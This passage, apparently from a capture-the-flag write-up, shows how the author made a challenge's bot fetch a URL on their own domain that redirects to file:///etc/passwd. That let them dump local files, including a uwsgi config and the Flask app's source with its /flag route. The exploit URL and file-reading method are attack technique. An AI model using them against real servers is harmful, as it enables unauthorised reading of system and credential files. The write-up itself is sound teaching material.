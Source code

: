 This way I could host it on my HTTPS domain and send the bot to:

```
https://ireland.re/exploit.php?x=file:///etc/passwd
```

Again, the same process of dumping files followed. Similarly, gg0h came in good with the `/proc/1/cmdline` file which contained a reference to this `/etc/uwsgi/uwsgi-custom.ini` file.

```
[uwsgi]
uid = www-data
gid = www-data
master = true
processes = 20
http-socket = 0.0.0.0:5000
chmod-sock = 664
vacuum = true
die-on-term = true
wsgi-file = /var/www/keep-dreaming-sonny-boy/app.py
callable = app
pythonpath = /usr/local/lib/python3.11/site-packages
```

This file contained a reference to `/var/www/keep-dreaming-sonny-boy/app.py` as can be seen above!

```python
from flask import Flask, request, send_from_directory, session, abort
from requestlib import fetch
from config import session_encryption_key
import subprocess
import os

def protect_secrets():
    os.unlink("config.py")

def check_url(url):
    if not isinstance(url, str) or len(url) == 0:
        return False, "Please provide a regular URL!"

    if not url.startswith("https://") or url.lstrip() != url:
        return False, "URL must start with 'https://'. We do not want anything insecure here!"

    return True, ""

app = Flask(__name__, static_folder='static', static_url_path='/assets/')
app.secret_key = session_encryption_key

print("Using key:", app.secret_key)

protect_secrets()

@app.route('/', methods=['GET'])
def home():
    return send_from_directory('pages', 'index.html')

@app.route('/flag', methods=['GET'])
def healthcheck():
    if session.get("admin") == True:
        return subprocess.check_output("/readflag")
    else:
        return abort(403)

@app.route('/check', methods=['POST'])
def check():
    url = request.form.get("url")
    valid, err = check_url(url)
```